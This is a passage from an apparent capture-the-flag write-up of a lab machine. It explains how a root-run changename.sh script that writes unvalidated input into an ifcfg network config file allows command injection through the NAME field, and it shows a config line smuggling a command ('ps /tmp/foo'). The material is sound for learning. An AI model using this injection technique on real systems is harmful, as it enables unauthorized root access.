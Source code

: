 ```text
[guly@networked ~]$ ls -la /usr/local/sbin | grep changename.sh
-rwxr-xr-x   1 root root 422 Jul  8  2019 changename.sh
```

We only have read and execute permissions on the file. Let’s view the content of the file.

```text
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoFregexp="^[a-zA-Z0-9_\ /-]+$"for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

It takes in the content of the file _ifcfg-guly_ and does a simple regex check on the input. Let’s view the permissions on that file.

```text
[guly@networked ~]$ ls -la /etc/sysconfig/network-scripts/ | grep ifcfg-guly
-rw-r--r--  1 root root   114 Jan 14 04:09 ifcfg-guly
```

We can only read it. Let’s view the file.

```text
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih
```

The NAME is assigned a system command, so we can probably use this to escalate privileges. After a bit of googling, I found this [bug report](https://bugzilla.redhat.com/show_bug.cgi?id=1697473) that states that incorrect whitespace filtering on the NAME attribute leads to code execution. Since we can run the changename.sh script with sudo privileges, it will prompt us to enter the NAME value and since it’s not properly validated, we can get a shell with root privileges!

![](../images/max/866/1*Vmd3WoSA8qufDqIbSHsJVQ.png)